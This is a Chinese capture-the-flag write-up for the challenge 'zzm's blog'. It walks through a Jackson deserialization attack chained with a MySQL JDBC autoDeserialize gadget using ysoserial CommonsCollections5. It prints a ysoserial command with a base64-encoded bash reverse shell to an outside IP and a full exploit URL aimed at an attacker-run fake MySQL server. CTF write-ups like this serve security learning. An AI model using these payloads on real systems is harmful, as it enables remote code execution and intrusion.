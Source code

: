 把hint文件夹中的pom.xml放出来作为提示

#### 题目名
zzm's blog

#### 查看文章，发现提示
I heard that fastjson has many vulnerabilities, so I used jackson to replace it in my blog.
说明题目使用了jackson

#### 使用jackson反序列化漏洞 + jdbc反序列化漏洞进行rce
1. 查看提示中的pom.xml，发现使用了commons-collections和mysql-connector-java，没有其它可利用的gadget
2. 因此想到先用com.mysql.cj.jdbc.admin.MiniAdmin伪造jdbc链接，然后构造jdbc反序列化利用链即可，jdbc反序列化使用的gadget是commons-collections
3. 首先在自己vps上放一个mysql.py文件(伪造mysql客户端)，然后用ysoserial.jar生成CommonsCollections5的payload（使用了jdk8，因此CommonsCollections3不能用）。
比如下面这条命了生成的payload可以反弹shell
> java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,L2Jpbi9iYXNoICAtaSA+IC9kZXYvdGNwLzExMS4yMjkuMjExLjcxLzc3NzcgMDwmMSAyPiYx}|{base64,-d}|{bash,-i}"  > payload.ser

然后将mysql.py和payload.ser放在同一目录，启动mysql.py即可

然后访问
http://题目地址/?query={%22id%22:[%22com.mysql.cj.jdbc.admin.MiniAdmin%22,%20%22jdbc:mysql://111.229.211.71:3305/mysql?characterEncoding=utf8%26useSSL=false%26queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor%26autoDeserialize=true%22]}
即可反弹shell，flag文件在/tmp目录下面，读取即可